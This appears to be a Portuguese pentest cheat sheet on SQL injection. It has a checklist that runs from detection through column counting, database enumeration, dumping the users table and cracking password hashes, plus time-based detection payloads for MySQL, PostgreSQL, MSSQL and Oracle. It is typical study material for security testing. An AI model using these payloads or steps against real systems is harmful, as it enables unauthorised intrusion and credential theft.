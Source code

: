 SQL Injection
========================

# Checklist

1 - Detectar
2 - Com base no payload de detecção,  verificar quantas colunas estão consideradas na query com "order by 1" ou "union select 1,2,3,..."
3 - Identifiar qual dos parâmetros que ccorresponde ao número da coluna eestá vulnerável
4 - Enumerar o versão do banco de dados
5 - Enumerar as tabelas do banco de dados no objetivo de obter alguma credencial ( Obter tabela de usuários)
6 - Trazer as informações a respeito das colunas da tabela de usuários
7 - Crakear os hashes de senhas
8 - Temos também a oportunidade de tentar executar comandos na máquina a partir do próprio banco de dados, caso o usuário tenha peermissão pra isso


# sources

https://www.sqlinjection.net/stacked-queries/  
https://portswigger.net/web-security/sql-injection


# Detection

Primeiro passo é a identificação da vulnerabilidade

3 tipos de identificação

### Numérico

Payloads

    1 + 1 #Se responder da mesma forma como se informasse 2 no payload, possivelmente vulnerável
    
MySQL (string concat and logical ops)

    1  sleep(10)
    1 and sleep(10)
    1 && sleep(10)

PostgreSQL (only support string concat)

    1 pg_sleep(10)

MSQL

    1 WAITFOR DELAY '0:0:10'

Oracle
    
    1 AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
    1 AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)
